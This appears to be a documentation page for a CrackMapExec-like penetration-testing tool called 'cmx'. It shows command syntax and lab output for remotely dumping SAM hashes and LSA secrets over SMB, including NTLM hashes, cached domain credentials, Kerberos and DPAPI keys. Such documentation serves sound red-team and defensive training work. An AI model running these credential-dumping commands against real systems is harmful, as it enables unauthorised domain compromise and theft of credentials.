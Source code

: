 ### Command Syntax  
`cmx smb TARGET -u Username -p Pass --sam`

```
> cmx smb 192.168.0.103 -u eminem -p Admin!23 --sam
Mar.25.20 16:49:35  SMB      192.168.0.103  WIN7A   [*] Windows 6.1 Build 7601 x64 (domain:SWAMP) (signing:False) (SMBv:2.1)
Mar.25.20 16:49:35  SMB      192.168.0.103  WIN7A   [+] SWAMP\eminem:Admin!23 (Pwn3d!)
Mar.25.20 16:49:35  SMB      192.168.0.103  WIN7A   [*] Dumping SAM hashes on 192.168.0.103
Mar.25.20 16:49:36  SMB      192.168.0.103  WIN7A   [+] SAM hashes dump of 192.168.0.103
Mar.25.20 16:49:36  SMB      192.168.0.103  WIN7A      Administrator:500:aad3b435b51404eeaad3b435b51404ee:10eca58175d4228ece151e287086e824:::
Mar.25.20 16:49:36  SMB      192.168.0.103  WIN7A      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Mar.25.20 16:49:36  SMB      192.168.0.103  WIN7A      agrande:1000:aad3b435b51404eeaad3b435b51404ee:710192d5abf367192c10a94d378bd45b:::
Mar.25.20 16:49:36  SMB      192.168.0.103  WIN7A   [+] Added 3 SAM hashes to the database
Mar.25.20 16:49:36  SMB      192.168.0.103  WIN7A   [+] Saved 3 hashes to ~\.cmx\logs/WIN7A_192.168.0.103_2020-03-25_164935.sam
```

------------------------------------------------------------------------
### \*Dump LSA secrets using methods from secretsdump.py 

|---------------+-------------+-------------+-------------+------------|
| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| TRUE          | false       | TRUE        | false       | TRUE       |
|---------------+-------------+-------------+-------------+------------|
{: .tablelines}

### Command Syntax  
`cmx smb TARGET -u Username -p Pass --lsa`

Sometimes you'll get plaintext passwords! (Usually service accounts).  
```
> cmx smb 192.168.0.103 -u eminem -p Admin!23 --lsa
Mar.25.20 16:50:45  SMB      192.168.0.103  WIN7A   [*] Windows 6.1 Build 7601 x64 (domain:SWAMP) (signing:False) (SMBv:2.1)
Mar.25.20 16:50:45  SMB      192.168.0.103  WIN7A   [+] SWAMP\eminem:Admin!23 (Pwn3d!)
Mar.25.20 16:50:45  SMB      192.168.0.103  WIN7A   [*] Dumping LSA Secrets on 192.168.0.103
Mar.25.20 16:50:47  SMB      192.168.0.103  WIN7A   [+] LSA Secrets dump for 192.168.0.103
Mar.25.20 16:50:47  SMB      192.168.0.103  WIN7A      SWAMP.LOCAL /drake:$DCC2$10240#drake#1fbd3853327bcefeaa7c666ba8e28004
Mar.25.20 16:50:47  SMB      192.168.0.103  WIN7A      SWAMP.LOCAL /arianna:$DCC2$10240#arianna#88e0a0e778e67d9e35748fa7e89ccaeb
Mar.25.20 16:50:49  SMB      192.168.0.103  WIN7A      SWAMP\WIN7A$:aes256-cts-hmac-sha1-96:fb04e5dd3627a764476e4f1d661942fe52579237ccc8237436a20e6b75216843
Mar.25.20 16:50:49  SMB      192.168.0.103  WIN7A      SWAMP\WIN7A$:aes128-cts-hmac-sha1-96:3c611b405b20f88e039e23b10624d41c
Mar.25.20 16:50:49  SMB      192.168.0.103  WIN7A      SWAMP\WIN7A$:des-cbc-md5:7a1340ea73e680ec
Mar.25.20 16:50:49  SMB      192.168.0.103  WIN7A      SWAMP\WIN7A$:aad3b435b51404eeaad3b435b51404ee:42d8cf1444bb879485532fea86c9e53e:::
Mar.25.20 16:50:49  SMB      192.168.0.103  WIN7A      dpapi_machinekey:0x6e27cf111a55495fd6aab7d4d3120ffb1b726fa4
dpapi_userkey:0x0cd38e83384273f6e20d629f17d9891f4b8e5f0d
Mar.25.20 16:50:49  SMB      192.168.0.103  WIN7A      NL$KM:825290be276dc54bee542f18d5b979e97e2da16102c30a44f40ea047b682cb48db90d23c2fc77970950f17192538d9c24ea67ac8187819d5bd3925be2ebc36cb
Mar.25.20 16:50:49  SMB      192.168.0.103  WIN7A   [+] Saved 8 LSA secrets to ~\.cmx\logs/WIN7A_192.168.0.103_2020-03-25_165045.secrets
```
